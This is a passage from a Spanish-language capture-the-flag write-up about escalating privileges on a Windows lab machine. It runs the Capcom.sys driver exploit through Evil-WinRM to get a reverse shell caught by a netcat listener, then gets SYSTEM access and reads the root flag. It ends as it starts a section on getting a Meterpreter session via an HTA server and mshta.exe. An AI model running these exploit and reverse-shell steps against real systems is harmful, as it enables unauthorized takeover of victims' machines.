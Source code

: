 Vamos a abrir una **netcat** usando **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Por último, ejecutamos el binario **ExploitCapcom.exe** indicándole que ejecute nuestra **Reverse Shell**:
```batch
*Evil-WinRM* PS C:\Temp> .\ExploitCapcom.exe C:\Temp\revShell.exe
[+] Path is: C:\Temp\revShell.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000026AEFD30008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Veamos si recibimos algo en la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.69.69] 60134
Microsoft Windows [Versi�n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.
.
C:\Temp>whoami
whoami
nt authority\system
```
Fue un exito.

Ya solo buscamos la flag del administrador:
```batch
C:\Users\Administrador\Desktop>type root.txt
type root.txt
...
```
Con esto completamos la máquina.

<br>

<h2 id="EnumWin">Enumeración de Máquina Windows con Módulo de local_exploit_suggester de Metasploit y Escalando Privilegios con cve_2024_35250_ks_driver</h2>

Si nosotros quisiéramos utilizar el módulo `post/multi/recon/local_exploit_suggester` de **Metasploit**, necesitaríamos una sesión de **Meterpreter**.

Para obtener esta sesión, necesitamos usar el módulo **HTA Server** que nos dará una URL que usaremos dentro de la sesión de **evil-winrm** junto al comando **mshta.exe**, pues este permite la ejecución de aplicaciones **HTA**.

<br>

<h3 id="HTA">Levantando Servidor HTA y Obteniendo Sesión de Meterpreter</h3>
